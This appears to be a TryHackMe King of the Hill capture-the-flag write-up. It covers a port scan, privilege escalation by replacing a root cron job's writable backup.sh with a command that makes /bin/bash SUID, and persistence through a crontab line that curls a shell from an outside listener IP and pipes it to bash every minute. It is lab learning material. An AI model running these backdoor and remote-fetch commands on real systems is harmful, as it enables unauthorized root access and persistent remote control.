


<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **Mode:** King of the Hill

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Port scan, SSH, HTTP, and several high app ports.
2. Foothold on the box (method not recorded in these notes).
3. Privesc: a root `cron` job runs `backup.sh` from a user-writable backup directory, replace it with an attacker-controlled script.
4. Persist with a SUID `bash` and a reverse-shell crontab.

</div>

## Port Scan

I started, as I always do, with a full port scan to see what was actually running before committing to any particular attack angle. The results showed a fairly sprawling surface for a KOTH target: SSH and HTTP on their standard ports, plus a cluster of high, non-standard ports that were clearly hosting separate application services worth investigating individually.

```console
Open 10.10.209.148:22
Open 10.10.209.148:80
Open 10.10.209.148:8000
Open 10.10.209.148:8001
Open 10.10.209.148:8002
Open 10.10.209.148:9999
```

Poking at the web-facing ports in the browser turned up the following:





## Privilege Escalation, writable cron script

Once I had a foothold, my enumeration of scheduled tasks turned up something worth exploiting immediately: a `backup.sh` script that root's crontab was executing on a timer, sitting inside a backup directory that my own user could write to. That combination, a privileged cron job pointed at a directory I controlled, meant I didn't need to find a bug in the script's logic at all. I could just replace the script outright. My plan was to rename the original out of the way as a safety net, then drop in my own `backup.sh` containing a payload that would set the SUID bit on `bash` the moment root's cron executed it:

```bash
# our malicious backup.sh
chmod u+s /bin/bash
```

After waiting for the next minute to tick over and the cron job to fire my replacement script as root, `bash` itself was left SUID, which meant dropping into a privileged shell was as simple as invoking it with the `-p` flag to preserve the effective UID:

```bash
# then, as root-equivalent:
/bin/bash -p
```

## Persistence

Since this is King of the Hill mode, where holding a box matters just as much as taking it, I also wanted a resilient way back in if I got knocked off. I appended a crontab entry that pulls and executes a shell from my own listener every single minute, giving me a self-healing foothold even if another player or a box reset killed my active session:

```bash
(crontab -l ; echo "* * * * * curl http://10.6.55.72:3333/shell | bash") | crontab 2>/dev/null
```
